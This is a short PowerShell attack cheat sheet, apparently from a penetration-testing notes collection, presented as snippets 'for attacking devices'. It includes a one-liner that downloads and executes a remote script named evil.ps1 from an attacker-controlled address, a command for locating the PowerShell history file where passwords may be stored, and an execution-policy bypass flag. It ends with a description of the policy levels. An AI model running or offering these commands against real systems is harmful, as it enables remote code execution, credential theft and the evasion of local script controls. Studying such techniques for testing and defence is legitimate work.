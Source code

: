# Powershell

Powershell was Windows' answer to improving the scripting solution within Windows.  It's incredibly powerful for both Sysadmins as well as attackers.  Here I will include a number of snippets I've found useful for attacking devices with.

#### Executing a script without an extension

```text
powershell - < ps1file
```

#### Executing a script hosted on a web-server

```text
iex (new-object net.webclient).downloadstring('http://192.168.0.1/evil.ps1')
```

## History Files

You may find that useful information is stored in the global password history file.

```aspnet
(Get-PSReadlineOption).HistorySavePath
```

## Execution Policy

The powershelll Execution Policy controls what scripts the local user can run.  We can query the execution policy of the current powershell context by running:

```text
get-executionpolicy
```

In fact there are a [whole host of methods](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/) we can use to bypass this policy.  One rather trivial method is to launch a powershell command with the execution policy unrestricted:

```text
powershell -ExecutionPolicy Bypass
```

For security reasons the default policy for executing scripts is **Restricted**. Here are the different script-policies.

**Restricted**: PowerShell won't run any scripts.

**AllSigned**: PowerShell will only run scripts that are signed with a digital signature. If you run a script signed by a publisher PowerShell hasn't seen before, PowerShell will ask whether you trust the script's publisher.

**RemoteSigned**: PowerShell won't run scripts downloaded from the Internet unless they have a digital signature, but scripts not downloaded from the Internet will run without prompting. If a script has a digital signature, PowerShell will prompt you before it runs a script from a publisher it hasn't seen before.

**Unrestricted**: No restrictions on scripts but will still prompt you before running a script downloaded from the Internet.

